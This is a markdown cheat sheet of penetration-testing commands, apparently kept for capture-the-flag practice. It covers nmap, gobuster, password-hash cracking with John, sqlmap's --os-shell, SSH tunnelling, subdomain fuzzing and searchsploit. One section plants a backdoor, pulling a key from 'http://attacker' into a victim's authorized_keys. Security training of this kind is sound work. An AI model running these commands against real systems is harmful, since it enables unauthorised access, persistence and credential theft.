 Commands for tools used 
---

## nmap

```
scan and show OS
---
nmap <addr> -sV

Don't ping (Firewall)
---
nmap <addr> -Pn

UDP
---
nmap <addr> -sU
```


## Gobuster
for enumerating website paths

```
finding dirs
---
gobuster dir -u <addr> -w /usr/share/wordlist/dirb/common.txt


searching for specific file type + dirs
---
gobuster dir -x php -u 10.129.255.70 -w /usr/share/wordlists/dirb/common.txt
```


## John the ripper

```

zip2john <file.zip> 2>/dev/null | tee <file.hash>

john <file.hash> --wordlist=/usr/share/wordlists/rockyou.txt --format=<format>

```


## sqlmap

```
sqlmap -u "<url>" --cookie="<key=values>" --os-shell --user-agent "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" 
```

## cadaver

```
For WebDAV applications
---
cadaver <website>
```

## Proxy chains

```
adding a proxy
---

edit /etc/proxychains4.conf 

add --> http <ip> <port>

$ proxychains ssh user@<ip>
```

## netcat enumeration

```
finding open ports internally
---
nc -zv 192.168.0.1 1-65535 2>&1 | grep -v "refused"
```


## tftp

allows putting/getting of files without specifying permission

check for `/etc/default/tftpd-hpa`


## SSH port forwarding

append your pub key to `/home/user/.ssh/authorized_keys`

On your attacker machine:

`ssh -L <local port>:<victim service>:<victim port> <victim>@<ip>`

OR using dynamic forwarding for attacks

`ssh -D <local port> <victim>@<ip>`

## Adding your SSH to the victim
```
Append your public to the victim's ~/.ssh/authorized_keys
---
On attacker:
ssh-keygen

On victim:
wget http://attacker/id_rsa.pub
cat id_rsa.pub >> ~/.ssh/authorized_keys
```

## Getting Crash Data

```
While program is running, kill it with
---
kill -BUS <pid>

Get the data from the crash log
---
apport-unpack /var/crash/_opt_count.1000.crash /tmp/crashed
strings /tmp/crashed/CoreDump
```

## JWT generation

```
pip install pyjwt

>>> import jwt
>>> encoded_jwt = jwt.encode({"some": "payload"}, "secret", algorithm="HS256")
```

## SUBDOMAIN ENUM

```
wfuzz -w SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.nunchucks.htb"  -u 'https://nunchucks.htb' --hh <word size>
```

## MySQL

run one liner mysqls
```
mysql -u <user> <db> --password=<pass> -e 'select * from users;'
```

## Searchsploit

Searches for exploits for specific versions

Can filter by date too

```
searchsploit -j <name of software> | jq .
```
